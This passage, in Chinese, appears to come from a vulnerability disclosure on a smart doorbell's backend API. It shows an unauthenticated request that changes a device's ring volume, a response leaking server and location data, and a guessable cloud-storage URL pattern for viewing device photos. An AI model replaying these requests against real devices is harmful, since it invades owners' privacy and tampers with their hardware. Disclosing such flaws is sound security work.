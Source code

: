 **响应：**

```
HTTP/1.1 200 OK
Server: nginx
Date: Tue, 10 Nov 2020 16:12:12 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Vary: Accept-Encoding
X-Powered-By: PHP/7.2.6
Set-Cookie: PHPSESSID=xxxxxxxxxxxxxxxxx; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 497

{"resultCode":0,"msg":"","content":{"cmd_servers":[{"ip":"
xxxxxxxx
","port":8888,"udp_port":25050}],"udp_servers":[{"ip":"
xxxxxxxx
","port":25050}],"oss_setting":{"ossFromId":1,"endpoint":"http:\/\/oss-eu-west-1.aliyuncs.com","bucket":"britain"},"local_time":"2020-11-10 16:12:12","current_time":1605024732,"sleep_interval":15,"is_test":0,"p2p_servers":[{"ip":"
xxxxxxxx
","port":17051}],"push_servers":["http:\/\/
xxxxxxxx
:58720"],"stun_servers":[{"ip":"xxxxxxxx","port":17051}]}}
```

获得的数据可以提供设备的大体位置。此设备的另一个主要问题是能否以未经身份验证的用户身份修改音量：

**POST 请求：**

```
POST /app_update_property HTTP/1.1
 Content-Type: application/x-www-form-urlencoded
 Content-Length: 66
 Host: api.gdxp.com:8100
 device_sn=EKDB_xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx&ring_volume=72
```

**响应：**

```
HTTP/1.1 200 OK
 {"resultCode":0,"msg":"","content":[]}
```

此外，通过设备序列旁边的 date/time 戳猜测文件名，也证明了从该设备访问和查看图像的方法非常简单：

```
http://britain.oss-eu-west-1.aliyuncs.com/EKDB_xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx/2020xxxxxxxxxx.jpg
```

正如前两个问题所概述的，这个设备特别是在后端 API 上存在着严重的的访问控制缺陷。
